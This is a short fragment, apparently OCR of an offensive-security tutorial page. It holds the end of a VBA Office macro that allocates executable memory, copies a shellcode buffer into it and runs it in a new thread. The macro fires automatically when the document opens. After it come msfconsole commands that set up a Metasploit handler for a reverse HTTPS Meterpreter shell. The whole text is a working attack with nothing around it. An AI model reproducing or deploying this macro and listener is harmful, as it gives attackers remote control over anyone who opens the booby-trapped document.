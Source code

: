 ```vb
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```


